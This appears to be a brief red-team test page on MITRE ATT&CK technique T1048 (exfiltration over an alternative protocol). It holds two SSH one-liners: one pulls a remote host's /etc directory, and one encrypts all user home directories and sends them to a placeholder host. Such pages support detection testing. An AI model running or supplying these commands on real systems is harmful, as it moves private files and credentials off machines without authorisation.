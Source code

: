 # Exfiltration Over Alternative Protocol

## MITRE ATT&CK Technique:
[T1048](https://attack.mitre.org/wiki/Technique/T1048)

## SSH

### Remote to Local:

    ssh target.example.com "(cd /etc && tar -zcvf - *)" > ./etc.tar.gz

### Local to Remote:

    tar czpf - /Users/* | openssl des3 -salt -pass pass:1234 | ssh foo@example.com 'cat > /Users.tar.gz.enc'
